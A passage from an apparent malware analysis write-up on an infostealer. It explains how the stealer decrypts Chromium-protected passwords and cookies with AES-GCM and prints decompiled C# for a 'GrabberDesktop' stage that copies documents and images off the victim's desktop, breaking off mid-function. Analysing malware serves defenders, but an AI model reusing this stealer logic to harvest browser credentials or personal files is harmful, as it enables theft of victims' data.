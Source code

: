 ### FunctionsForDecrypt Class

This class does the actual decryption using the keys fetched by **LocalStateKeys**. The encrypted data being worked on here is generally protected with **AES-GCM**, a common encryption method in modern browsers.

- **IsV10**: This method checks if the encrypted data starts with the "v10" prefix, which indicates it's using a specific encryption format that’s common in Chromium-based browsers.
- **Prepare**: This method takes the encrypted data and splits it into two parts:
    1. The **nonce** (a 12-byte number that is used only once).
    2. The **ciphertext** (the encrypted data) along with an **authentication tag**.
    
    This step is essentially about breaking the encrypted data into manageable chunks so it can be properly decrypted.
    
- **Decrypt**: This is where the magic happens. The method uses the **BouncyCastle** library to decrypt the data with the AES-GCM algorithm.
    - The decrypted data is then converted into a string (usually passwords, cookies, etc.), and any unnecessary characters like null values or newlines are cleaned up.
    - If something goes wrong (e.g., if the wrong key is used or the data is corrupted), the method catches the error and returns an empty string instead of crashing.

# Stage 5: **GrabberDesktop**

```csharp
using System;
using System.Collections.Generic;
using System.IO;
using Main;

namespace Grabbers
{
	// Token: 0x02000014 RID: 20
	public class Desktop
	{
		// Token: 0x06000037 RID: 55 RVA: 0x000039AC File Offset: 0x00001BAC
		public static void GrabberDesktop()
		{
			try
			{
				Directory.CreateDirectory(Variables.workdir + "\\Grabbers\\DesktopFiles");
				string[] files = Directory.GetFiles(Variables.desktop);
				List<string> list = new List<string>();
				foreach (string text in files)
				{
					string extension = Path.GetExtension(text);
					bool flag = extension == ".pdf" || extension == ".txt" || extension == ".sql" || extension == ".jpg" || extension == ".png";
					if (flag)
					{
						Variables.foundFilesFromDesktop++;
						list.Add(text);
					}
				}
				List<string> list2 = new List<string>();
				foreach (string text2 in list)
				{
					list2.Add(Path.GetFileName(text2));
				}
				for (int j = 0; j < list.Count; j++)
				{
					bool flag2 = File.Exists(Path.Combine(Variables.workdir + "\\Grabbers\\DesktopFiles", list2[j]));
					if (flag2)
```